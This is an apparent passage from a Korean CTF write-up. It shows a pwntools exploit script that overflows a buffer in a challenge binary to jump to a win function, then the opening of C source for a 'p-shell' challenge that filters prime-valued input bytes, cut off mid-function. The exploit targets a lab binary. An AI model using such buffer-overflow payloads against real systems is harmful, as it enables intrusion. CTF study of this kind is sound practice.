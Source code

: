 exploit.py
```py
from pwn import *

p = process('./bxorf')

ret = 0x40101a
cat = 0x401216
payload = b'a'*0x28 + p64(ret) +p64(cat)

p.send(payload)
p.recvuntil("Meow Meow: ")
p.send(str(3735928559))

p.interactive()
```

#### p-shell

문제 코드는 다음과 같습니다.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>
#include <math.h>

int is_prime(int n) {
    if (n < 2)
        return 0;
    int limit = (int)sqrt(n);
    for (int i = 2; i <= limit; i++) {
        if (n % i == 0)
            return 0;
    }
    return 1;
}

int main() {
    unsigned char input[4096];
    ssize_t input_len;

    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    printf("Input : ");

    input_len = read(STDIN_FILENO, input, sizeof(input));
    if (input_len <= 0) {
        perror("read error");
        exit(EXIT_FAILURE);
    }

    unsigned char *filtered = malloc(input_len);
    if (!filtered) {
        perror("malloc error");
        exit(EXIT_FAILURE);
    }
    int filtered_len = 0;
    for (int i = 0; i < input_len; i++) {
        if (!is_prime(input[i])) {
            filtered[filtered_len++] = input[i];
        }
    }
```